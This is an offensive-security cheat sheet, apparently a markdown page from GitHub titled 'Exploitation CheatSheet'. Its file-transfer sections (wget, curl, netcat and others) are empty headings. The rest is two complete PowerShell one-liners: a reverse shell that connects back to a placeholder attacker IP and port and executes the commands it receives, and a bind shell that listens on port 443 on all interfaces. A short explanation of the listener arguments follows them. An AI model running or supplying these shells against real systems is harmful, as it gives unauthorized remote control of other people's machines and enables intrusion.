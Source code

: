 ```yaml
---
title: "Exploitation CheatSheet"
author: "Me"
date: "January 11, 2022"
output: html_document
---
```


# Exploitation CheatSheet
{:.no_toc}


1. TOC
{:toc}
{:style="color:black; font-size: 150%;"}

# File transfers

## wget

## curl

## axel

## socat

## netcat

## powershell

# Shells

## Powershell reverse shell (one-liner)

````
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('IPADDRESS',PORT);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );
$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
`````

## Powershell bind shell (one-liner)

````
powershell -c "$listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0',443);$listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();$listener.Stop()"
`````
The System.Net.Sockets.TcpListener requires 2 arguments: the address to listen on and the port. By providing 0.0.0.0 as the local address, the bind shell will be available on all IP addresses on the system.

